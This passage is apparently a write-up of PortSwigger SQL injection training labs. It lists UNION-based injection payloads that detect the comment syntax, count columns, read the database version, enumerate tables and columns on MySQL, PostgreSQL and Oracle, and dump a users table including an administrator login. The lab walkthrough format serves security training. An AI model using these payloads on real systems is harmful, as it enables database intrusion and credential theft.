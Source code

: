 Test payload: `category'#`
- If `'--` is used, the server will return an error. For that reason, the comment key on this database is a `#`

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL#`

To check the column with the string payload: `category' UNION SELECT 'a','a'#`

To retrieve the data: `category' UNION SELECT @@version,NULL#`
- On SQL Server and MySQL databases, information on the version can be found with `SELECT @@version`

### [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT 'a','a'--`

To get all the tables (and columns on each table) in the database: `category' UNION SELECT table_name,STRING_AGG(column_name, ',') FROM information_schema.columns GROUP BY table_name--`
- This query returns all database tables and their columns. It works on PostgreSQL databases. To use it in MySQL, change `STRING_AGG(column, sep)` to `GROUP_CONCAT(column)`. For other databases, check the documentation for equivalent functions
- The `information_schema.columns` is a table on databases (except Oracle) that has information on all columns from all tables in the database
- Searching through the tables, we can find a `users_xdykim` table with the columns `username_ygnyzx` and `password_wkknxs`

To retrieve all the users: `category' UNION SELECT username_ygnyzx,password_wkknxs FROM users_xdykim--`
- To solve the lab, log in as `administrator:9cwgy2lthvk0ta1ctjos`

### [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL FROM dual--`

To check the column with the string payload: `category' UNION SELECT 'a','a' FROM dual--`

To get all the tables (and columns on each table) in the database: `category' UNION SELECT table_name,LISTAGG(column_name, ',') WITHIN GROUP(ORDER BY column_name) column_list FROM user_tab_cols GROUP BY table_name--`
- This query returns all database tables and their columns. It works on Oracle databases. The function `LISTAGG(column, sep)` aggregates a column on a row with a separator and requires `WITHIN GROUP(ORDER BY column) group_name` to work
- The `all_tab_columns` is a table on Oracle databases that has information on all columns from all tables in the database
- Searching through the tables, we can find a `USERS_WBZCLJ` table with the columns `USERNAME_WQDOCJ` and `PASSWORD_NLFHLD`
